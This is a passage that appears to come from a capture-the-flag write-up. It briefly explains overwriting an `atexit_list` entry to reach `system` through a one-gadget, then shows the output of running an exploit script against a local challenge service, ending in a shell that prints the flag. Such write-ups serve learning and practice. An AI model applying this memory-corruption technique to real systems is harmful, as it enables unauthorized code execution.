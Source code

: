 But what should we overwrite?  Remember that `atexit_list` we found way back in
the reversing step?  That's a juicy target.  And we also found `system`, so we
have a one-gadget in there somewhere.

See `doit.py` for the details.

Running:

```
$ python3 doit.py
[+] Opening connection to localhost on port 1337: Done
[*] Closed connection to localhost port 1337
[+] Finding key length: Done
[*] Found len(key) = 64
[*] |key|       = 64
[*] |prefix|    = 84
[*] |ext|       = 367
[*] |base64|    = 604
[*] |all|-|ext| = 700
[*] game offset = 4
[+] Opening connection to localhost on port 1337: Done
[*] Switching to interactive mode
$ cat flag
flag{no realloc, no problem!}
```
